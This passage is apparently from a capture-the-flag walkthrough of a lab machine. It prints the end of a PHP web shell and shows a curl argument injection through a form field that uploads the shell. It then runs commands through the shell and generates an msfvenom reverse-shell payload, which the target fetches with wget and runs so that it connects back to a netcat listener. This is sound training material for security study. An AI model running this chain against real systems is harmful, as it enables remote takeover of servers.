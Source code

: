 ```php
    ob_end_clean();
  } else if(function_exists('system')){
    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
?>
```

Then send the input `http://10.10.14.23:7777/bubba.php -o /var/www/html/uploads/bubba.php` to `http://10.10.10.24/exposed.php` with a simple `curl` after viewing the HTML source:

![html](./haircut/html.png) 

```bash
curl -s -X POST --data-urlencode "formurl=http://10.10.14.23:7777/bubba.php -o /var/www/html/uploads/bubba.php" http://10.10.10.24/exposed.php
```

Now this web shell can be used as follows:

```bash
curl http://10.10.10.24/uploads/bubba.php?cmd=whoami
```

Which returns the following:

![webshell](./haircut/webshell.png)

That's remote code execution! Now to make this a more dedicated shell:

```bash
# check that remote target has wget
curl --data-urlencode "cmd=which wget" http://10.10.10.24/uploads/bubba.php 
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 7777
python3 -m http.server 7777
# listen for callback
nc -nvlp 6969
# send command to target
curl --data-urlencode "cmd=wget http://10.10.14.23:7777/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &" http://10.10.10.24/uploads/bubba.php
```
